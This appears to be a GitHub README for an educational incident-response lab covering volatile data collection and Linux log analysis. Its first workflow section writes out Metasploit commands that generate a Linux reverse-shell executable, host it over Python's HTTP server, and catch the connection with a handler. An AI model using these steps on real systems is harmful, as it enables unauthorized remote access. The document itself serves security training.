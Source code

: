 # Incident Response Procedures

## Overview

This project provides a comprehensive framework for simulating and managing incident response scenarios. It encompasses creating malicious executables, collecting volatile data from compromised systems, and performing log analysis to detect unauthorized activities. By leveraging tools such as **Metasploit**, **Linux utilities**, and **Python HTTP Server**, this project demonstrates real-world incident response workflows, emphasizing the importance of detection, mitigation, and forensic analysis.

---

## Key Features

1. **Malicious Payload Creation**:
   - Generate reverse shell executables tailored for Linux systems using Metasploit.
   - Host malicious payloads using Python's HTTP server for remote deployment.

2. **Volatile Data Collection**:
   - Collect critical system data, including network configurations, running processes, and active connections.
   - Save findings in a structured report for forensic analysis.

3. **Log Analysis**:
   - Analyze system logs (`auth.log`, `btmp`, `wtmp`) to identify unauthorized access, failed login attempts, and suspicious activities.
   - Review timestamps and IP addresses to trace the origins of potential attacks.

4. **Incident Response Workflow**:
   - Simulate the response process from detection to mitigation and documentation.
   - Highlight best practices for evidence preservation and forensic reporting.

---

## Workflow Steps

### **1. Malicious Payload Creation**
- **Objective**: Simulate system compromise by creating a reverse shell executable.
- **Steps**:
  1. Launch Metasploit:
     ```bash
     msfconsole
     ```
  2. Search for a Linux payload:
     ```bash
     search linux/x64/shell_reverse_tcp
     use 0
     ```
  3. Configure the payload:
     ```bash
     set LHOST <your_IP_address>
     generate -f elf -o linux
     ```
  4. Host the payload using Python's HTTP server:
     ```bash
     python3 -m http.server
     ```
  5. Start the Metasploit handler:
     ```bash
     use exploit/multi/handler
     set payload linux/x64/shell_reverse_tcp
     set LHOST <your_IP_address>
     exploit
     ```

### **2. Volatile Data Collection**
- **Objective**: Gather critical data from compromised systems before shutdown.
- **Steps**:
  1. Escalate to root privileges:
     ```bash
     sudo su
     ```
  2. Create a structured report:
     ```bash
     echo "Incident Response Report" > report.txt
     ```
  3. Collect system data:
     ```bash
     date >> report.txt
     uname -a >> report.txt
     hostname >> report.txt
     ifconfig -a >> report.txt
     netstat -ano >> report.txt
     ps -aux >> report.txt
     route -n >> report.txt
     uptime >> report.txt
     ```
  4. Save and view the report:
     ```bash
     cat report.txt | less
     ```

### **3. Log Analysis**
- **Objective**: Investigate unauthorized access and identify attack patterns.
- **Steps**:
  1. Analyze system authorization logs:
     ```bash
     cat /var/log/auth.log | less
     ```
  2. Review failed login attempts:
     ```bash
     last -f /var/log/btmp | more
     ```
  3. Inspect login sessions:
     ```bash
     last -f /var/log/wtmp | more
     ```

---

## Tools and Technologies

1. **Metasploit Framework**: For creating malicious payloads and managing reverse shell connections.
2. **Linux Utilities**:
   - `ifconfig`: To display network interface configurations.
   - `netstat`: For monitoring active network connections.
   - `ps`: To list running processes.
3. **Python HTTP Server**: For hosting malicious executables.
4. **System Logs**:
   - `auth.log`: Tracks system authentication activities.
   - `btmp`: Logs failed login attempts.
   - `wtmp`: Records login/logout events and session durations.

---

## Learning Objectives

1. **Incident Simulation**:
   - Learn how reverse shells are created and deployed.
   - Understand how attackers gain unauthorized access to systems.

2. **Forensic Evidence Collection**:
   - Gather and preserve volatile data for post-incident analysis.
   - Document findings systematically for reporting purposes.

3. **Log Analysis and Attack Tracing**:
   - Use system logs to detect unauthorized access and trace attack origins.
   - Identify suspicious IP addresses, failed login attempts, and abnormal activity patterns.

4. **Response and Mitigation**:
   - Implement best practices for detecting, mitigating, and recovering from incidents.
   - Emphasize the importance of documentation in the incident response process.

---

## Real-World Applications

1. **Incident Detection**: Simulate attack scenarios to practice early detection and response.
2. **Forensic Analysis**: Develop skills in analyzing logs and collecting critical evidence.
3. **Security Awareness**: Understand common attack techniques and how to defend against them effectively.

---

## Resources

1. **Official Metasploit Documentation**: [Metasploit Framework](https://www.metasploit.com/)
2. **Wireshark User Guide**: [Wireshark Documentation](https://www.wireshark.org/docs/)
3. **Linux System Administration**:
   - [Linux Command Line Basics](https://linuxcommand.org/)
   - [GNU Core Utilities](https://www.gnu.org/software/coreutils/)
4. **Cybersecurity Standards**:
   - [NIST Incident Response Guidelines](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-61r2.pdf)
   - [SANS Digital Forensics Resources](https://www.sans.org/tools/)
5. **Intrusion Detection and Prevention**: [Snort Documentation](https://www.snort.org/)

---

## Documentation

For step-by-step instructions, detailed configurations, and analysis examples, refer to the full project documentation:  
[Incident Response Procedures](https://github.com/StephVergil/Incident-Response-Procedures/blob/main/Incident%20Reponse%20Procedures.docx)

---

## Disclaimer

This project was conducted in a controlled environment for educational purposes only. Unauthorized use of these tools or techniques outside of a lab setup may violate ethical guidelines and cybersecurity laws. Always ensure proper authorization and compliance with relevant regulations.

---


